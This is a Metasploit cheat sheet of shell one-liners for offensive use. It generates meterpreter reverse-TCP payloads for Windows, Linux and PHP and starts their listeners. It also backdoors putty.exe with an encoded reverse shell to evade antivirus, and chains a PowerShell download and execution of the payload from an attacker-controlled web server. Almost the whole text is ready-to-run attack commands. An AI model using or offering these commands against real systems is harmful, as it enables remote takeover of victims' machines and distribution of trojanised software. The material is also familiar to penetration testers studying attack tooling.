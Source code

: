 Create payload and listeners "One Liners"
------------------------------------------------
```bash
# Windows
msfvenom -p windows/meterpreter/reverse_tcp LHOST=xxx.xxx.xxx.xxx LPORT=443 -f exe > ./reverse3.exe
msfconsole -x "use exploit/multi/handler; set payload windows/meterpreter/reverse_tcp; set LHOST xxx.xxx.xxx.xxx; set PORT 1234; run"
# Linux
msfconsole -x "use exploit/multi/handler; set payload linux/x86/meterpreter_reverse_tcp; set LHOST xxx.xxx.xxx.xxx; set PORT 1234; run"
# PHP
msfconsole -x "use exploit/multi/handler; set PAYLOAD php/meterpreter/reverse_tcp; set LHOST xxx.xxx.xxx.xxx; set PORT 1234; run"
```

Start meterpreter listener for a Windows payload
------------------------------------------------
```bash
# Create Payload
msfvenom -p windows/meterpreter/reverse_tcp LHOST=xxx.xxx.xxx.xxx LPORT=443 -f exe > ./reverse3.exe
# Start Listener
use exploit/multi/handler 
set PAYLOAD windows/meterpreter/reverse_tcp 
set LHOST xxx.xxx.xxx.xxx
set LPORT 443
exploit
```

Backdoor a Windows Feedback Executable
------------------------------
```bash
msfvenom -a x86 --platform windows -x putty.exe -k -p windows/meterpreter/reverse_tcp lport= 4444 lhost=xxx.xxx.xxx.xxx -e x86/shikata_ga_nai -i 3 -b "\x00" -f exe -o puttyX.exe
```
Generate Payload -> powershell to download -> execute 
--------------------------------------------------------------------
```bash
# Generate payload
msfvenom -p windows/meterpreter/reverse_tcp LHOST=xxx.xxx.xxx.xxx LPORT=7777 -f exe > ./reverse3.exe
# Start Webserver to download
php -S <locahost-ip-address>:80
# Start listener
use exploit/multi/handler 
set PAYLOAD windows/meterpreter/reverse_tcp 
set LHOST xxx.xxx.xxx.xxx
set LPORT 7777
exploit
# Use PowerShell to download payload
powershell Invoke-WebRequest http://xxx.xxx.xxx.xxx:80/reverse3.exe -O 'C:\path\where\you\can\create\files\reverse3.exe'
# Execute payload (try different quotes as needed)
"C:\path\where\you\can\create\files\reverse3.exe"
```

